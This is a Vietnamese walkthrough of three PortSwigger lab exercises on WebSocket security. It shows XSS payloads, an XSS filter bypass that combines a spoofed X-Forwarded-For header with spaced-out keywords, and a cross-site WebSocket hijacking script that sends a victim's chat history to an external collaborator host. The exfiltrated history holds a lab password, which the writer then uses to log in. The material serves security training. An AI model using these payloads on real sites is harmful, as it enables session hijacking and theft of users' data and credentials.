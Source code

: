 # 1. Manipulating WebSocket messages to exploit vulnerabilities

Trong chức năng live chat, thử exploit XSS bằng cách gửi message `<img src=1 onerror=alert(1)>`, thì nhận thấy các kí tự đặc biệt đã bị HTML encoded, khiến chúng ta không thể exploit XSS. Sử dụng BurpRepeater, ta thấy dữ liệu gửi lên server cũng bị encode.

Trong file `chat.js` có đoạn code sau:

![image](https://user-images.githubusercontent.com/103978452/215007534-39c1a61f-0105-459e-82c2-8ee8d97ed5f9.png)
Như vậy website thực hiện encode phía client side rồi mới gửi đi, và chỉ encode nếu trong form có thuộc tính `encode=true`. Dùng Dev Tools xóa thuộc tính `encode` của thẻ form, sau đó gửi message `<img src=1 onerror=alert(1)>`, kết quả thành công.

# 2. Manipulating the WebSocket handshake to exploit vulnerabilities

Trong ứng dụng live chat, thử với đoạn tin nhắn `<img src=1 onerror=alert(1)`, kết quả website đã chặn truy cập do phát hiện XSS payload. Sử dụng BurpRepeater để gửi lại request thì thấy website trả về response `{"error":"Attack detected: Event handler"}`. Thử Reconnect thì có thông báo lỗi `"This address is blacklisted"`. Như vậy, website có XSS filter, sẽ kiểm tra XSS payload, nếu có thì sẽ chặn người dùng.

Thử thêm header `X-Forwarded-For: 1.1.1.1` thì thấy Reconnect thành công, như vậy ta có thể dùng header này để bypass. Sau khi thử nhiều payload thì ta nhận thấy:

+) Nếu xuất hiện `onerror=...` thì sẽ bị chặn, nhưng `onerror = ...` (thêm space ở giữa) thì lại thành công

+) Nếu xuất hiện `alert()` thì sẽ bị chặn với lỗi `{"error":"Attack detected: Alert"}`, tuy nhiên `alert ()` thì lại được cho phép.

Như vậy, ta cấu hình một message với nội dung sau:

```
{"message":"<img src=1 onerror = 'alert ()'>"}
```
Sau khi submit, kết quả bài lab được giải.

# 3. Cross-site WebSocket hijacking

Trong ứng dụng live chat, nhận thấy nếu gửi tin nhắn là READY thì response trả về sẽ gồm thông tin lịch sử tin nhắn. Như vậy ta có thể thực hiện tấn công CSRF để lấy lịch sử của người dùng khác.

Vào exploit server, cấu hình đoạn code sau:

```
<script>
const socket = new WebSocket('wss://0a0e002403df1318c0da7cdc008c004e.web-security-academy.net/chat');
socket.addEventListener('open', (event) => {
socket.send('READY');
});
socket.addEventListener('message', (event) => {
fetch('https://49bpw5gytci0xfweo3kysrdmddj37s.oastify.com?data='+encodeURIComponent(event.data));
});
</script>
```
Khi nạn nhân truy cập exploit web page, code trên sẽ gửi message `READY` tới `wss://0a0e002403df1318c0da7cdc008c004e.web-security-academy.net/chat`, rồi encode response trả về gửi đến Burp Collaborator. Vào Burp Collaborator Client kiểm tra, ta thấy có các request được gửi đến:

![image](https://user-images.githubusercontent.com/103978452/215761258-c8a9b443-51cd-4941-a3aa-992ffced533d.png)
Dựa vào các request đó, ta xác định được đoạn các messages gửi đi giữa user và bot Hal Pline như sau:

```
{"user":"Hal Pline","content":"Hello, how can I help?"}
{"user":"You","content":"I forgot my password"}
{"user":"Hal Pline","content":"No problem carlos, it's hoigo63yweck7xzwgbvz"}
{"user":"You","content":"Thanks, I hope this doesn't come back to bite me!"}
```

Thử đăng nhập với username=carlos, password=hoigo63yweck7xzwgbvz, kết quả thành công.
